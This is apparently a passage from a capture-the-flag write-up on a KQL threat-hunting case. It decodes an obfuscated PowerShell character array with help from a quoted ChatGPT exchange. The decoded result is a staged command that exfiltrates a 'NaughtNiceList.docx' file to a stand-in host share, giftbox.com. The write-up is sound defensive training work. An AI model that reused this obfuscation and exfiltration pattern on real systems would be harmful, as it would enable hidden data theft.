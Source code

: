     2. `[char[]](...)`: Creates an array of characters using the provided numeric values. Each numeric value corresponds to a Unicode
    character.
    The numeric values in the list seem to represent ASCII or Unicode values for characters, forming a sequence of characters that make
    up a file path or command. The entire expression (`'', [char[]](...)` ) creates an array containing an empty string and another array
    of characters.<br/><br/>
    **My Prompt:** translate the following array of decimal unicode characters to their ascii character
    100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92,
    92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99,
    120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101 <br/>
    **ChatGPT Response:** Certainly! Let's translate the array of decimal Unicode values to their corresponding ASCII characters:<br/>
    ```
    $unicodeArray = 100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 
    32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46,
    100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101
    
    # Convert each Unicode value to its corresponding ASCII character
    $asciiArray = $unicodeArray | ForEach-Object { [char]$_ }
    
    # Join the characters into a single string
    $asciiString = -join $asciiArray
    
    # Display the resulting string
    $asciiString
    ```
    The resulting string is:
    ```
    downwithsanta.exe - exfil C:\Desktop\\NaughtNiceList.docx \\giftbox.com\file
    ```
![KQLcase5](../img/objectives/o12/KQLcase5query.png)
![KQLcase5base64-1](../img/objectives/o12/KQLcase5base64-first.png)